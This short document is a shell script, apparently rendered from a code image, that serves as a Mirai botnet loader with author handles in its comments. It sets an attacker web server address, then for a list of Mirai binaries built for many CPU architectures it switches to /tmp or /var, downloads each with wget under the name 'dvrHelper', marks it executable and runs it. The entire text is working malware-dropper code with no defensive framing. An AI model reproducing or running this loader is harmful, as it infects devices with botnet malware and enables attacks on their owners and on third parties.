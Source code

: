 \begin{lstlisting}
# Gucci Ares
#  Kik:XVPL IG:Greek.Ares
#!/bin/sh
# Edit
WEBSERVER="xx.xx.207.14:80"
# Stop editing now
BINARIES="mirai.arm mirai.arm5n mirai.arm7 mirai.x68 mirai.x86 mirai.m68k mirai.mips mirai.mpsl mirai.ppc mirai.sh4 mirai.spc"
for Binary in $BINARIES; do
    cd /tmp; echo ''>DIRTEST || cd /var; echo ''>DIRTEST;wget http://$WEBSERVER/$Binary -O dvrHelper
    chmod 777 dvrHelper
    ./dvrHelper
done
\end{lstlisting}
